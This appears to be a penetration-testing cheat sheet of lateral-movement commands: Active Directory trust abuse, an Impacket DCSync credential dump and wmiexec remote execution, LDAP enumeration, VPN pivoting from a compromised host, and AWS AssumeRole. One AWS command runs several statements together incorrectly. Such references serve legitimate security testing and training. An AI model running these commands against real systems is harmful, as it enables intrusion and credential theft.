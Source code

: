 #### Abuse of Active Directory Trusts
- **Enumerate Domain Trusts Using `PowerView`:**
	```bash
	Get-DomainTrust
	```
- **Move Laterally Using Inter-Domain Trusts:**
	```bash
	Enter-PSSession -ComputerName <target_ip> -Credential <trusted_domain>\<user>
	```

#### Exploiting Active Directory with `Impacket`
- **Run a `dcsync` Attack to Dump Credentials:**
	```bash
	secretsdump.py -just-dc-ntlm <domain>/<user>@<domain_controller_ip>
	```
- **Execute Commands on Remote AD Machines Using `wmiexec.py`:**
	```bash
	wmiexec.py <domain>/<user>:<password>@<target_ip>
	```

#### LDAP Exploitation
- **Enumerate LDAP Users:**
	```bash
	ldapsearch -x -h <ldap_server_ip> -b "dc=example,dc=com" "(objectClass=user)"
	```
- **Use LDAP to Access Other Services:**
	```bash
	ldapsearch -x -h <ldap_server_ip> -b "dc=example,dc=com" "(|(userPrincipalName=user@domain.com)(mail=user@domain.com))"
	```

#### VPN Pivoting
- **Set Up a VPN on a Compromised Host:**
	```bash
	openvpn --config /path/to/config.ovpn
	```
- **Route Traffic from a Remote Network Through VPN:**
	```bash
	sudo ip route add <target_network> via <vpn_gateway>
	```

# Lateral Movement via Cloud

#### Moving Laterally in AWS
- **Enumerate EC2 Instances Using AWS CLI:**
	```bash
	aws ec2 describe-instances --query "Reservations[*].Instances[*].InstanceId"
	```
- **Access Another AWS Account via AssumeRole:**
	```bash
	aws sts assume-role --role-arn "arn:aws:iam::<account_id>:role/<role_name>" --role-session-name AWSCLI-Session export AWS_ACCESS_KEY_ID=<access_key> export AWS_SECRET_ACCESS_KEY=<secret_key> export AWS_SESSION_TOKEN=<session_token>
	```
